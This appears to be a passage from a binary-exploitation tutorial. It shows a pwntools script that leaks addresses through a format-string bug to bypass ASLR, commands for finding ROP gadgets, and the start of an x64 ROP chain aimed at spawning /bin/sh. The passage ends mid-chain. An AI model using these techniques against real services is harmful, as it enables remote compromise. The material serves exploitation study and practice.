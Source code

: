 ### Bypassing ASLR

**Information Leak Technique**:

```python
#!/usr/bin/env python3
from pwn import *

# Connect to vulnerable service
p = remote('target.com', 9999)

# Trigger format string vulnerability to leak addresses
p.sendline(b"%3$p")  # Leak stack address
leak = int(p.recvline().strip(), 16)
log.info(f"Leaked address: {hex(leak)}")

# Calculate base address (assuming known offset)
base = leak - 0x1234
log.success(f"Binary base: {hex(base)}")

# Now use calculated addresses for ROP chain
```

---

## 2. Return-Oriented Programming (ROP)

### ROP Basics

When NX is enabled, execute existing code snippets (gadgets) to build exploit.

**Finding Gadgets**:

```bash
# Using ROPgadget
ROPgadget --binary ./binary | grep "pop rdi ; ret"

# Using ropper
ropper --file ./binary --search "pop rdi"

# Using pwntools
from pwn import *
elf = ELF('./binary')
rop = ROP(elf)
print(rop.dump())
```

### ROP Chain Example (x64)

```python
#!/usr/bin/env python3
from pwn import *

context.arch = 'amd64'
elf = ELF('./vulnerable')
libc = ELF('./libc.so.6')
rop = ROP(elf)

# Build ROP chain for system("/bin/sh")
# 1. Leak libc address
rop.call('puts', [elf.got['puts']])
rop.call(elf.symbols['main'])  # Return to main

# Send first stage
payload = b"A" * 72  # Offset to return address
payload += rop.chain()
```